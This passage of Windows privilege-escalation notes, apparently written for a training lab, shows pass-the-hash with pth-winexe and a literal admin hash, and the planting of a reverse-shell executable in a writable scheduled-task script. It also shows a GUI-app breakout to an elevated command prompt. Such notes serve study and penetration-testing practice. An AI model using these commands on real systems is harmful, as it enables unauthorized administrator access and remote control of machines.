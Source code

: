> Windows accepts hashes instead of passwords to authenticate to a number of services. We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash.


```bash
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.93.139 cmd.exe
```

### Scheduled Tasks

> Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.


List all scheduled tasks our user can see.


```powershell
schtasks /query /fo LIST /v

Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Check the privileges

```powershell
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

Write our payload into the script

```powershell
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

### Insecure GUI Apps

> On some (older) versions of Windows, users could be granted the permission to run certain GUI apps with administrator privileges. There are often numerous ways to spawn command prompts from within GUI apps, including using native Windows functionality. Since the parent process is running with administrator privileges, the spawned command prompt will also run with these privileges.

> We call this the “Citrix Method” because it uses many of the same techniques used to break out of Citrix environments.

List all the processes

```powershell
tasklist /V | findstr mspaint.exe
``` 

Get the cmd shell

```powershell
file://c:/windows/system32/cmd.exe
``` 

### Startup Apps
